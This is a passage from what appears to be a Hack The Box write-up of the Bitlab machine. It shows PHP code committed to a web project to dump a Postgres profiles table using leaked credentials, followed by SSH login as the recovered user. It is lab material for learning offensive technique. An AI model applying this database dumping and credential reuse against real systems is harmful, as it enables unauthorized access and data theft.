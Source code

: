 ## User

In the home page of the Profile project, there is a hint, is mentioned a connection postgresql and snippets, we go to the snippets page, and we found we have one

{{< image src="/images/htb/bitlab/1-intended_user.png" position="center" style="border-radius: 8px;" >}}

we open it and se it's a script to connect to the database and get a dump of profiles:

```js
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

then, inside the profile project we add a new file with that code, but also we create an array with ```pg_fetch_all($result)``` in order to save all the profiles dumped, so the result is this one:

```js
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
$arr = pg_fetch_all($result);
print_r($arr);
```

After save and merge of it, we go to ```http://10.10.10.114/profile/<name you give to the script>```, and we should get as a result printed an array with our previous user ```clave``` and a password:

```js
Array ( [0] => Array ( [id] => 1 [username] => clave [password] => c3NoLXN0cjBuZy1wQHNz== ) )
```

before trying to crack the password, we try to use as it is, and indeed it was just that one it was not encrypted!

```console
root@kali:~/Documents/HTB/boxes/medium/linux/bitlab# ssh 10.10.10.114 -l clave
clave@10.10.10.114's password: 
Last login: Fri Jan 10 19:45:16 2020 from 10.10.14.7
clave@bitlab:~$ id
uid=1000(clave) gid=1000(clave) groups=1000(clave)
clave@bitlab:~$ ls -la
total 44
drwxr-xr-x 4 clave clave  4096 Aug  8 14:40 .
drwxr-xr-x 3 root  root   4096 Feb 28  2019 ..
lrwxrwxrwx 1 root  root      9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave  3771 Feb 28  2019 .bashrc
drwx------ 2 clave clave  4096 Aug  8 14:40 .cache
drwx------ 3 clave clave  4096 Aug  8 14:40 .gnupg
-rw-r--r-- 1 clave clave   807 Feb 28  2019 .profile
-r-------- 1 clave clave 13824 Jul 30 19:58 RemoteConnection.exe
-r-------- 1 clave clave    33 Feb 28  2019 user.txt
clave@bitlab:~$ wc -c user.txt 
33 user.txt
```

